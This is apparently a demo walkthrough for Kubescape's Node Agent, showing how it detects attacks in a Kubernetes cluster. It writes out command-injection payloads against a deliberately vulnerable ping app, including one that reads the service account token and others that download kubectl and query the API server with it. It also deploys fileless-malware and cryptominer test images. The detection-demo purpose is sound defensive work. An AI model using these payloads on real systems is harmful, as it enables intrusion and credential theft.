

# Node Agent Runtime Detection & Response Demo
This is a walkthrough of Node Agent Runtime Detection & Response capability, in this demo we will do the following:
1. Install Node Agent.
2. Deploy a sample web application and attack it.
3. Deploy fileless malware.
4. Deploy a container with malicious image that contains malwares.
5. See how Node Agent detects the attacks.

With this demo you will be able to see how Node Agent works and how it can be used to detect and prevent attacks.
To learn more about Node Agent, see [here](https://kubescape.io/docs/).

## Table of Contents

- [Installation](#installation)
- [Deploy Web Application](#deploy-web-application)
- [Attack Web Application](#attack-web-application)
- [Attack Fileless Malware](#attack-fileless-malware)
- [Attack Malicious Image](#attack-malicious-image)
- [Conclusion](#conclusion)


## Installation
To install Node Agent, you need to have a Kubernetes cluster up and running. In case you want to test it on your local machine you can use [Minikube](https://kubernetes.io/docs/tasks/tools/install-minikube/) or [Kind](https://kind.sigs.k8s.io/docs/user/quick-start/).

After you have a Kubernetes cluster up and running, you can install Node Agent by running the following commands:

```bash
git clone https://github.com/kubescape/node-agent.git && cd node-agent
# Assuming AlertManager is running in service  "alertmanager-operated" in namespace "monitoring"
helm repo add kubescape https://kubescape.github.io/helm-charts/ ; helm repo update ; helm upgrade --install kubescape kubescape/kubescape-operator -n kubescape --create-namespace --set clusterName=`kubectl config current-context` --set nodeAgent.config.alertManagerExporterUrls=alertmanager-operated.monitoring.svc.cluster.local:9093 --set nodeAgent.config.maxLearningPeriod=15m --set nodeAgent.config.learningPeriod=2m --set nodeAgent.config.updatePeriod=1m --set capabilities.runtimeDetection=enable --set alertCRD.installDefault=true --set alertCRD.scopeClustered=true
```

You should be getting alerts after the learning period ends. The learning period is the time Node Agent takes to learn the normal behavior of the cluster, during this period Node Agent will raise alerts only for malicious activities. After the learning period, Node Agent will raise alerts for both malicious and abnormal activities.

The learning period is configurable, you can change the values of `maxLearningPeriod`, `learningPeriod`, and `updatePeriod` in the helm chart. See [here](https://kubescape.io/docs/operator/relevancy/#enabling-relevancy) for more information.

Try `kubectl exec` on one of the Pods after the learning period to test out anomaly detection!

### Getting alerts

One of the ways to get alert from Node Agent is to connect it an AlertManager. If you don't have AlertManager running, you can install it by running the following commands:
```bash
helm repo add prometheus-community https://prometheus-community.github.io/helm-charts
helm repo update
helm install alertmanager prometheus-community/kube-prometheus-stack -n monitoring --create-namespace
```

By default the Node Agent is exporting alerts to stdout, you can see the alerts by running the following command:
```bash
kubectl logs -n kubescape -l app=node-agent -f
```

In the above helm chart installation, we have connected Node Agent to AlertManager, you can see the alerts in AlertManager UI by going to `http://<node-ip>:9093`.

**Once you have Node Agent installed, let's deploy a sample web application and attack it.**

## Deploy Web Application

To deploy a sample web application, run the following commands:

```bash
chmod +x demo/general_attack/webapp/setup.sh
./demo/general_attack/webapp/setup.sh
```

This will deploy a sample web application and a service to expose it.
You can access the web application by using a web browser and going to `http://<node-ip>:8080`.
You should see the following page:


The application is a "Ping service", it allows the user to ping a host, and it will return the output of the ping command.
Let's try to ping `1.1.1.1` and see the output.


Once you have the web application up and running, let's attack it and see how Node Agent detects the attack.

## Attack Web Application

Our web application is deliberatly made vulnerable to a [command injection](https://owasp.org/www-community/attacks/Command_Injection) attack.

Behind the scenes, the application is taking the IP from the form as a string and concatenates it to a command. Since there is no proper input sanitization we can use this to run arbitrary commands on the web application container and get the output.

Let's try to execute the `ls` command on the web application container.

```bash
1.1.1.1;ls
```

Great! We can see the output of the `ls` command, but we can also see that Node Agent detected the attack and sent an alert to AlertManager.


Navigate to AlertManager UI by going to `http://<node-ip>:9093` and you should see the following alert:
(You can also see the alert in the terminal where you ran `helm install`)


We can see that Node Agent raised two alerts, one for the unexpected command execution and one for the unexpected file activity.
We can see the details of the alerts such as the command that was executed and the file that was accessed and on which workload.

Now, let's try to run a more malicious command, let's try to get the service account token.

```bash
1.1.1.1;cat /run/secrets/kubernetes.io/serviceaccount/token
```

We can see that Node Agent detected the attack and sent an alert to AlertManager.

Node Agent detected the attack because it has a rule that identifies access to the service account token.

Next, let's try to download kubectl into the container and run it to get the pods in the cluster.

Execute the following commands one by one:
```bash
# Get the architecture of the node
1.1.1.1;uname -m | sed 's/x86_64/amd64/g' | sed 's/aarch64/arm64/g'

# Download kubectl
1.1.1.1;curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/<node arch>/kubectl"

# Make kubectl executable
1.1.1.1;chmod +x kubectl

# Get the pods in the cluster
1.1.1.1;./kubectl --server https://kubernetes.default --insecure-skip-tls-verify --token $(cat /run/secrets/kubernetes.io/serviceaccount/token) get pods
```

You should see the following output:


We can see that Node Agent detected the attack and sent an alert to AlertManager.


Node Agent detected the attack because it has a rule that identifies kubernetes API server access from a container.

## Attack Fileless Malware
Let's deploy a fileless malware and see how Node Agent detects it.

To deploy the fileless malware, run the following commands:
This will deploy google's [demo-app](https://github.com/GoogleCloudPlatform/microservices-demo)
```bash
kubectl apply -f demo/fileless_exec/kubernetes-manifest.yaml
```
We have replaced one of the original images with a malicious image that runs a fileless malware.
Using the [ezuri crypter](https://github.com/guitmz/ezuri), we have encrypted the malware and embedded it in the image. (Don't worry, it doesn't run a real malicious malware 😉).

Let's see what has popped up in AlertManager.


We can see that Node Agent detected that an exec syscall was made from `/proc/self/fd/3` which is the file descriptor of the malware that resides in the container's memory.
This is a fileless malware, so we don't have any files to scan, but Node Agent still detected it.

## Attack Malicious Image
Let's deploy a container with malicious image that contains malwares such as [cryptominer](https://www.crowdstrike.com/blog/what-is-cryptomining/) and [webshell](https://owasp.org/www-community/attacks/Web_Shell).

We are going to be using [ruzickap malwares container](https://github.com/ruzickap/malware-cryptominer-container) to deploy a container with malwares.
To deploy the container, run the following command:
```bash
kubectl run malware-cryptominer --image=quay.io/petr_ruzicka/malware-cryptominer-container:2.0.2
```
Or, alternatively, you can build the image yourself by running the following commands:
```bash
docker build -t malware-cryptominer -f malwares_image/Containerfile .
docker tag malware-cryptominer quay.io/petr_ruzicka/malware-cryptominer-container:2.0.2
# If you are using minikube
minikube image load quay.io/petr_ruzicka/malware-cryptominer-container:2.0.2
# If you are using kind
kind load docker-image quay.io/petr_ruzicka/malware-cryptominer-container:2.0.2
```

Let's see what has popped up in AlertManager.

We can see that Node Agent detected that the container is running a malicious image that contains malwares.
It also supplies the path to the malwares in the node's filesystem as well as the signatures of the malwares.
Node Agent uses [ClamAV](https://www.clamav.net/) to scan the images for malwares.
ClamAV is an open source antivirus engine for detecting trojans, viruses, malware & other malicious threats, it supports a wide range of signature languages including YARA and bytecode signatures.

Please note that Node Agent doesn't scan the images by default, you need to enable it by setting `capabilities.malwareDetection=enable` in the helm chart. See [here](https://kubescape.io/docs/) for more information.


## Conclusion
In this demo we saw how Node Agent can be used to detect and prevent attacks in Kubernetes.
We covered a few attacks, but Node Agent can detect many more attacks, see [here](https://kubescape.io/docs/) for the full list of supported rules and detection methods.
To learn more about Node Agent, see [here](../README.md).

If you have any questions, feel free to open an issue or contact us via [email](mailto:support@armosec.io) or [slack](https://cloud-native.slack.com/archives/C04EY3ZF9GE).
